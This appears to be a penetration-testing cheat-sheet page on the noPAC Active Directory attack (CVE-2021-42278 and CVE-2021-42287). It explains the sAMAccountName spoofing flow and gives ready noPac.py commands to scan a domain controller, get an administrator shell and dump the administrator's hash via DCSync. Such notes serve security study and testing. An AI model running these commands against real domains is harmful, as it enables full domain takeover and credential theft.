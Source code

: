 # noPAC

## <mark style="color:yellow;">ABOUT</mark>

Novemer 2021, it was discovered that combination of two vulnerabilities could allow domain escalation from a standart user.

### <mark style="color:blue;">CVE-2021-42278</mark>

Name Impersonation vulnerability. Was caused because of absence of checking `$` after computer account name (because of sAMAccountName attribute).

### <mark style="color:blue;">CVE-2021-42287</mark>

When requesting a ST, you should present a TGT. When ST is not found by KDC, it searches again with `$`. So imagine if we found TGT for user `bob`, then `bob` gets deleted, so it searches for `bob$`. If it exists, we could obtain ST for `bob$`.

### <mark style="color:blue;">Prerequisites</mark>

* Authenticated low-privileged AD user
* Unpatched DC vulnerable to both CVEs
* Attacker can create machine accounts (default: 10 per user)

## <mark style="color:yellow;">FLOW</mark>

1. Make / Rename pc account with similar name to DC but with $
2. Ask for TGT for this user
3. Delete / Change back name of pc account
4. Use that TGT to request for TGS
5. TGS checks who ownes that TGT. Checks original name, empty (Cause we deleted/changed name). so it tries same name but with $
6. Success, KDC thinks that you're TGT is DC's TGT

## <mark style="color:yellow;">LINUX</mark>

For executing this vuln from Linux we need this exploit: [**\[LINK\]**](https://github.com/Ridter/noPac)

#### Scanning for noPAC

```shell-session
sudo python3 scanner.py militech.local/sreed:passsword123 -dc-ip 13.13.13.13 -use-ldap
```

#### Running noPAC & Shell

```shell-session
sudo python3 noPac.py MILITECH.LOCAL/sreed:password123 -dc-ip 13.13.13.13 -dc-host MILITECH-EA-DC01 -shell --impersonate administrator -use-ldap
```

> Session would be made with impacket's smbexec

> Also noPAC would save TGT in local directory

#### DCSync using noPAC

```shell-session
sudo python3 noPac.py MILITECH.LOCAL/sreed:password123 -dc-ip 13.13.13.13  -dc-host MILITECH-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user MILITECH/administrator
```

> Basically we just changed <mark style="color:green;">`-shell`</mark>l parameter with <mark style="color:green;">`-dump`</mark>

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing#machine-account" %}
